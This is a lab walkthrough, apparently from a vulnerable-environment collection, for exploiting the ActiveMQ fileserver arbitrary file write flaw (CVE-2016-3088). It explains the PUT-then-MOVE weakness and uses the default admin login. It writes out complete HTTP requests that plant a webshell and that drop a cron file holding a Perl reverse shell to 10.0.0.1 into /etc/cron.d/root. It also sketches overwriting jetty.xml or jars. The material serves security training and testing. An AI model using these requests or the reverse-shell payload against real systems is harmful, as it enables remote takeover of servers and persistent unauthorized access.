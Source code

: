 # ActiveMQ Arbitrary File Write Vulnerability (CVE-2016-3088)

[中文版本(Chinese version)](README.zh-cn.md)
[PT-BR(Portuguese version)](README.pt-br.md)

## Environment setup

Enter following commands to build and run the vulnerability environment:

```
docker-compose up -d
```

The environment listens to port 61616 and port 8161, of which 8161 is the web console port. This vulnerability appears in the web console.

Visit `http://your-ip:8161/` to see the web page, indicating that the environment has been successfully run.

## Background brief

ActiveMQ web console is divided into three applications, admin, api and fileserver, where admin is the administrator page, api is the interface, fileserver is the interface for storing files; admin and api need to log in before they can be used, fileserver does not need to log in.

fileserver is a RESTful API interface. We can read and write files stored in it through HTTP requests such as GET, PUT, and DELETE. The design purpose is to compensate for the defect that the message queue operation cannot transfer and store binary files, but later found that:

1. Its usage rate is not high
2. File operations are prone to vulnerabilities

Therefore, ActiveMQ has closed the fileserver application by default in 5.12.x~5.13.x (you can open it in conf/jetty.xml); after 5.14.0, the fileserver application is completely removed.

In the test process, you should pay attention to the version of ActiveMQ, prevent useless effort.

## Vulnerability Details

This vulnerability appears in the Fileserver application, the vulnerability principle is actually very simple, that is, fileserver support to write files (but do not parse the JSP), while supporting the move file (MOVE request). So, we just need to write a file and then move it to any location by use a move request, causing arbitrary file write vulnerability.

Write files such as cron or ssh key

1. Write Webshell
2. Write files such as cron or ssh key
3. Write libraries and configuration files such as jar or jetty.xml

The advantage of writing webshell is convenient, but the fileserver don't parse jsp, admin and api both need to log in to access, so it is a bit futile; The advantage of writing cron or ssh key is to directly reverse Shell, it is convenient too, the disadvantage is that you need root privileges; write jar, a little trouble (requires jar back door), write xml configuration file, this method is more reliable, but there is a futile point: we need to know ActiveMQ absolute path.

Let we talk about the above several methods.

### Write Webshell

As I said earlier, the Webshell needs to be written in the Admin or Api app, and both applications need to be logged in to access.

The default ActiveMQ account and password is `admin`. First, visit `http://your-ip:8161/admin/test/systemProperties.jsp` to view the absolute path of ActiveMQ:

![](02.png)

Then upload Webshell:

```
PUT /fileserver/2.txt HTTP/1.1
Host: localhost:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 120976

webshell...
```

Then move it to the API folder (`/opt/activemq/webapps/api/s.jsp`) in the Web directory:

```
MOVE /fileserver/2.txt HTTP/1.1
Destination: file:///opt/activemq/webapps/api/s.jsp
Host: localhost:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 0
```

Access Webshell (login required):

![](03.png)

### Write crontab, automate reverse shell

This is a relatively stable method. First upload the cron configuration file (note that the newline must be `\n`, not `\r\n`, otherwise the crontab execution will fail):

```
PUT /fileserver/1.txt HTTP/1.1
Host: localhost:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 248

*/1 * * * * root /usr/bin/perl -e 'use Socket;$i="10.0.0.1";$p=21;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Move it to `/etc/cron.d/root`:

```
MOVE /fileserver/1.txt HTTP/1.1
Destination: file:///etc/cron.d/root
Host: localhost:8161
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 0
```

If both of the above requests return 204, the write is successful. Waiting for the reverse shell:

![](01.png)

This method requires the ActiveMQ run as root, otherwise it will not be able to write to the cron file.

### Write jetty.xml or jar

In theory we can override jetty.xml, remove the login restrictions for admin and api, and then write webshell.

In some cases, the owner of jetty.xml and jar is the user of the web container, so the success rate of writing crontab is higher.

Not tested yet.
